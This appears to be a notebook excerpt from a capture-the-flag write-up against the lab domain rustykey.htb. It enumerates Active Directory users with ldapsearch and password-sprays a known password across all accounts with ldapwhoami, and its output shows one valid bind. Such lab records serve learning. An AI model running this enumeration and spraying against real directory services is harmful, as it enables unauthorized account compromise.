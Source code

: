 

```python
users =!ldapsearch -H ldap://rustykey.htb -D '{domain}\{initialuser}' -w $initialpassword -b "dc=rustykey,dc=htb" "(&(objectClass=user)(objectCategory=person))" sAMAccountName | grep sAMAccountName: | cut -d" " -f2
pprint(users)
```

    ['Administrator',
     'Guest',
     'krbtgt',
     'rr.parker',
     'mm.turner',
     'bb.morgan',
     'gg.anderson',
     'dd.ali',
     'ee.reed',
     'nn.marcos',
     'backupadmin']


Test credentials against all users. I'm going to leave this here to show what a bad idea looks like. Another challenge I will learn it's far easier to user `kerbrute` to password spray. I'll leave this here for the annuls of history.


```python
import winrm

for user in users:
    !ldapwhoami -x -H ldap://rustykey.htb -D '{domain}\{user}' -w $initialpassword
```

    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    u:RUSTYKEY\rr.parker
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52f, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52f, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52f, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
